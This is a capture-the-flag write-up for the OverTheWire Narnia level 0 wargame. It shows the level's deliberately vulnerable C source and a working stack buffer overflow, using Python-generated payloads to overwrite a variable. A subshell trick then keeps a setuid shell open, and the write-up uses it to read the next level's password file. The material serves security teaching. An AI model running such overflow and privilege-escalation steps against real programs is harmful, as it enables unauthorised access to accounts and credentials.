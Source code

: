
#Narnia0

narnia.labs.overthewire.org

**Username:** narnia0
**Password:** narnia0
**Description:**  

This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

Before we do anything, let's go ahead and run the program and see what it does.

```
# ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: AAAAAAAA  
buf: AAAAAAAA  
val: 0x41414141  
WAY OFF!!!!  
```

Ok, it basically just tell's us that we need to correct a value and asks for input.  After accepting the input it looks like it just tells us the value that we submitted and the value of the area we are supposed to overwrite.

Let's go ahead and take a peek at the source:

```C
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

Alright, we can see the declaration of the buffer ```char buf[20];``` and where the input is read in ```scanf("%24s",&buf);```.  It also looks like if we get our values correct that we will be rewarded quite generously with a shell.  How nice! Let's play around with this new information a bit.  If the buffer was only supposed to be 20 characters, let's see what happens when our input is 21 characters, but since it looks like the buffer we want to overwrite has ```0x41414141``` already in it we are going to have to use another letter besides ```A``` as our input. We'll settle for ```R```.  Just as a quick side note, rather than inputting the values by hand each time let's utilize python to make life easier and just pipe in the input.

```
# python -c 'print "R"*21' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRR  
val: 0x41410052  
WAY OFF!!!!  
```

Hmm, it looks like we overwrote one character with the null value at the end of the input overwriting a second.  It also looks like it started overwriting from the back, so we'll need to remember to take the endianness into account for our final input.  Let's try overwriting all 4 characters of the buffer.

```
# python -c 'print "R"*24' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRRRRR  
val: 0x52525252  
WAY OFF!!!!  
```

Perfect, we overwrote the whole buffer with our input.  Now, lets start trying to fit ```0xdeadbeef``` in there.  Since the hex values for ```0xdeadbeef``` don't match up to ascii characters we need a way to insert them as input.  We are already using python for the repetitive input, let's just back off our number of ```R``` and tag on hex values to the end of that string and see what it does.

```
# python -c 'print "R"*20+"\xde\xad\xbe\xef"' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRޭ�  
val: 0xefbeadde  
WAY OFF!!!!  
```
Our buffer shows that we inserted ```RRRRRRRRRRRRRRRRRRRRޭ�``` which we obviously wouldn't have been able to type in.  However, we forget about the little endian part and our values aren't in the correct order.  Let's fix that.

```
# python -c 'print "R"*20+"\xef\xbe\xad\xde"' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRﾭ  
val: 0xdeadbeef  
```

Well, we didn't get the ```WAY OFF!!!``` message, but no shell. I actually spent a good bit of time at this stage, but learned a few key concepts in doing so.  The shell is being launched, but the problem is that it's exiting before we have a chance to run anything.  What we need to do is use the subshell syntax in bash and try to group commands together.  Let's try that with a basic command.
 
```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';ls) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
/bin/sh: 1: narnia0: not found
/bin/sh: 2: narnia0.c: not found
/bin/sh: 3: narnia1: not found
/bin/sh: 4: narnia1.c: not found
/bin/sh: 5: narnia2: not found
/bin/sh: 6: narnia2.c: not found
/bin/sh: 7: narnia3: not found
/bin/sh: 8: narnia3.c: not found
/bin/sh: 9: narnia4: not found
/bin/sh: 10: narnia4.c: not found
/bin/sh: 11: narnia5: not found
/bin/sh: 12: narnia5.c: not found
/bin/sh: 13: narnia6: not found
/bin/sh: 14: narnia6.c: not found
/bin/sh: 15: narnia7: not found
/bin/sh: 16: narnia7.c: not found
/bin/sh: 17: narnia8: not found
/bin/sh: 18: narnia8.c: not found
```

Now this looks a little better.  It looks like the output from ```ls``` was passed into the /bin/sh from narnia0. Here we can utilize the ```cat``` command with no parameters which will basically leave the input open for us to pass values to /bin/sh.

```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
whoami
narnia1
pwd 
/narnia
```

Finally. The ```cat``` command left the input open for us and everything we passed was executed by /bin/sh as a separate command.  Now we just need to find where the flag may be.

```
narnia0@melinda:/narnia$ find / -name 'narnia*' -print 2>/dev/null
/games/narnia
/games/narnia/narnia8
/games/narnia/narnia6.c
/games/narnia/narnia6
/games/narnia/narnia3
/games/narnia/narnia7
/games/narnia/narnia4
/games/narnia/narnia2.c
/games/narnia/narnia3.c
/games/narnia/narnia1
/games/narnia/narnia5
/games/narnia/narnia4.c
/games/narnia/narnia5.c
/games/narnia/narnia0
/games/narnia/narnia2
/games/narnia/narnia1.c
/games/narnia/narnia7.c
/games/narnia/narnia8.c
/games/narnia/narnia0.c
/etc/narnia_pass
/etc/narnia_pass/narnia3
/etc/narnia_pass/narnia7
/etc/narnia_pass/narnia5
/etc/narnia_pass/narnia1
/etc/narnia_pass/narnia8
/etc/narnia_pass/narnia6
/etc/narnia_pass/narnia9
/etc/narnia_pass/narnia0
/etc/narnia_pass/narnia2
/etc/narnia_pass/narnia4
/narnia
/home/narnia3
/home/narnia7
/home/narnia5
/home/narnia1
/home/narnia8
/home/narnia6
/home/narnia9
/home/narnia0
/home/narnia2
/home/narnia4
```

The ```find / -name 'narnia*'``` is a fairly basic command.  The ```-print 2>/dev/null``` is basically just there to eliminate any errors that may clutter the output.  Out of our results the most promising is the ```/etc/narnia_pass``` directory that looks like there is a password document for each challenge.  Since we already have the password for narnia0, let's try to grab the narnia1 password.

```
narnia0@melinda:/narnia$ cat /etc/narnia_pass/narnia1
cat: /etc/narnia_pass/narnia1: Permission denied
narnia0@melinda:/narnia$ ls -l /etc/narnia_pass/narnia1
-r-------- 1 narnia1 narnia1 11 Nov 14  2014 /etc/narnia_pass/narnia1
narnia0@melinda:/narnia$ ls -l narnia0
-r-sr-x--- 1 narnia1 narnia0 7452 Nov 14  2014 narnia0
```

We can't just ```cat``` the narnia1 password because we don't have permissions but it looks like the narnia0 challege runs under narnia1.  Let's use our subshell trick and try to read the password.

```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
**********
```

There we go. Finally got it. On to narnia1.
